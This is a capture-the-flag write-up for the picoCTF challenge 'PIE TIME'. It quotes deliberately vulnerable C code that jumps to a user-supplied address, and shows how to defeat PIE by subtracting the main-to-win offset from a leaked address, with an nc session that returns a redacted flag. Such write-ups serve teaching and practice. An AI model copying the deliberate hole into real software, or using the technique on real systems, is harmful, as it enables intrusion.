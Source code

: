 # PIE TIME #
 
## Overview ##

75 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #PIE #infoleak #ASLR`

## Description ##

Can you try to get the flag? Beware we have PIE!

## Approach ##

Analysing the provided `vuln.c` challenge source file, there is a `win()` function that drops our flag from a file, that we need to call.

`main()` requests an address from the user to call as a function pointer, obviously the target is the address of `win()`.

    int main() {
      signal(SIGSEGV, segfault_handler);
      setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

      printf("Address of main: %p\n", &main);

      unsigned long val;
      printf("Enter the address to jump to, ex => 0x12345: ");
      scanf("%lx", &val);
      printf("Your input: %lx\n", val);

      void (*foo)(void) = (void (*)())val;
      foo();
    }

Checking binary securities:

    $ checksec vuln
    [*] '/home/user/picoCTF/PIE-TIME/vuln'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled

As the name of the challenge would have us suspect, the binary is a Position Independent Executable (PIE), meaning our code segment will be located at a different address each execution.

Conveniently the address of `main()` is "leaked" (or given to us rather), so we can calculate the offset from `main()` to `win()` such that we can apply the relative offset to the leaked address. As the code segment moves around in the address space, but the relative offsets of the code within remains the same.

So lets find the offset of these functions from the code segment based address and then calculate the relative offset between them:

    $ readelf -s ./vuln | egrep "main|win"
        66: 00000000000012a7   150 FUNC    GLOBAL DEFAULT   16 win
        70: 000000000000133d   204 FUNC    GLOBAL DEFAULT   16 main

    (offset of win()) - (offset of main()) = relative offset
    `0x133d - 0x12a7` = `0x96`    

Noting that `win()` is at a lower address, hence we must subtract this relative offset from the leaked `main()` address.

## Solution ##

From the challenge server: 

    $ nc rescued-float.picoctf.net 55494
    Address of main: 0x5660322e333d
    Enter the address to jump to, ex => 0x12345: 0x5660322E32A7
    Your input: 5660322e32a7
    You won!
    picoCTF{...........redacted.............}

The address of `main()` for this invocation was `0x5660322e333d`.

Therefore `0x5660322e333d - 0x96 = 0x5660322e32a7`, inputting the calculated address of `win()` dropped us the flag.

Where the actual flag value has been redacted for the purposes of this write up.
